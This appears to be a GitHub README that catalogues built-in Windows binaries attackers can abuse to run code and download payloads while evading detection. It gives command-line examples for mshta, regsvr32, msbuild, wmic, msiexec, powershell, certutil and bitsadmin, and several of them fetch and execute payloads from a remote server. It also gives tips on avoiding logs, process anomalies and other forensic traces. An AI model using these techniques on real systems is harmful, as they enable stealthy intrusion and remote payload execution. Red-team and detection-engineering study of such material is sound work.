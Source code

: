 # CodeExecutionOnWindows

As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

Also a much more comprehensive list can be found here - https://github.com/api0cradle/LOLBAS

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- csc.exe
  - Description: The .NET compiler can be used to compile a c# payload locally that can then be executed.
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  - Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
  
- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msbuild.exe
  - Description - Microsoft's build utility where you can supply an inline build task to execute code (https://msdn.microsoft.com/en-us/library/dd722601.aspx)
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \\server\payload

- msiexec.exe
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi

- mshta.exe
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');

- powershell.exe
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval.
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}

- wmic.exe
  - Description: Command line tool for WMI.
  - Example: wmic process call create "cmd.exe /c calc"
  - Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  - Example: wmic os get /format:"https://server/payload.xsl"

### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
  - Example: certutil -urlcache -split -f [URL] [output-file]
  
- bitsadmin.exe
  - Description: Allows you to download a payload.
  - Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
  
- powershell.exe
  - Description: Allows you to download a payload.
  - Example: powershell -c "(New-Object System.Net.WebClient).DownloadString('https://google.com')"
  
